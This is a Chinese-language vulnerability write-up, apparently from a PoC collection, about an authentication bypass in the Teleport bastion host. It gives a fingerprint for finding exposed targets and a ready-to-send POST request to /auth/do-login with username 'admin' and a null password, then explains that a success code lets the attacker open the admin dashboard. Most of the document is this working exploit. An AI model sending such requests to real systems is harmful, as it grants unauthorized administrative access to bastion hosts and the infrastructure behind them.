 # Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](images/202208241349427.png)

验证POC， captcha参数为验证码

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![image-20220824135439227](images/202208241354271.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![image-20220824135449199](images/202208241354243.png)